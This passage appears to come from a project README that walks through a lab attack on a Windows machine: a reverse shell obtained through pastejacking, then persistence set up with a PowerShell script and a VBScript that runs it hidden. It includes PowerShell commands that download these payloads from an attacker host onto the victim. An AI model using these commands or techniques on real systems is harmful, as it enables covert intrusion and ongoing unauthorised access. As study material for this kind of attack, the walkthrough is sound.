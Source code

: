 
Below are shown the victim and the attacker machines after the spawn of the reverse shell.
![Windows Reverse Shell](images/Win_RS.png)
![Kali Reverse Shell](images/Kali_RS.png)

## Persistence

Persistence in a cybersecurity context refers to the ability of an attacker to maintain access to a compromised system, even after the system has been rebooted, or the initial attack vector has been closed. In this project, persistence was achieved by uploading two files, "Persistence.ps1" and "persistence.vbs", to the same location as the webpage used for pastejacking.

1. **Persistence.ps1**: This file contains the same code as the reverse shell. When this script is run on the victim's machine, it spawns a reverse shell that connects back to the attacker's machine.

2. **persistence.vbs**: This file is a VBScript that is used to run the "Persistence.ps1" script in the background. Running the script in the background makes it less likely for the victim to notice the malicious process, as it won't appear in the foreground or affect the use of the system.

The process can be broken down into the following steps:

- **Uploading the Scripts**: The "Persistence.ps1" and "persistence.vbs" files are uploaded to the same location as the webpage used for pastejacking.

- **Downloading the Scripts**: Once the victim's machine is compromised, the scripts are downloaded manually using the reverse shell with the commands below.

```powershell
Invoke-WebRequest -Uri "http://10.0.2.15/Persistance.ps1" -OutFile "C:\Persistance.ps1"
Invoke-WebRequest -Uri "http://10.0.2.15/Persistance.vbs" -OutFile "C:\Persistance.vbs"
```
